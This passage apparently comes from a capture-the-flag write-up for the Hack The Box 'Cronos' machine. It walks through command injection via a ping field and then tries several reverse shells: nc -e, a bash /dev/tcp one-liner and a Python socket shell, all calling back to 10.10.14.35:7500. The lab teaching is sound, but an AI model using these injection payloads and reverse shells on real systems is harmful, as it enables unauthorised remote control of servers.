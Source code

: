 Since we know the server-side script is custom, na doutputs the results in text, we may be able to add additional commands to it, in order to run commands on the server. We can test this by inputting something like `10.10.14.35 && id` to the ping field on the tool. The `&&` tells the system to run the second command at the completion of the first command.

![](/assets/htb-cronos/panel_rce.png)

Sure enough, we have RCE! We can see the results of the `id` command in the page.

Now all that's left to do is exploit the RCE to gain a reverse shell. We can trest for the presense of the `nc` tool by adding `10.10.14.35 && which nc` to the tool, which will result with the path of the server-side `nc` tool.

![](/assets/htb-cronos/panel_whichnc.png)

Let's try a simple reverse shell with `10.10.14.35 && /bin/nc -e /bin/sh 10.10.14.35 7500`. Make sure you setup a local listener with `nc -lvnp 7500` to capture the shell.

We get no return on our listener, and no output on the page. So we can assume that this is probably the OpenBSD version of `nc`, which doesn't carry the `-e` option.

We can try using a pure `bash` reverse shell with `10.10.14.35 && /bin/bash -i >& /dev/tcp/10.10.14.35/7500 0>&1`, but still no luck.

Let's try to see if `python` is in the path with `10.10.14.35 && which python`.

![](/assets/htb-cronos/panel_whichpython.png)

Sure enough, we do have `python` in the path. So a `python` reverse shell should work.

We can use `10.10.14.35 && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",7500));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
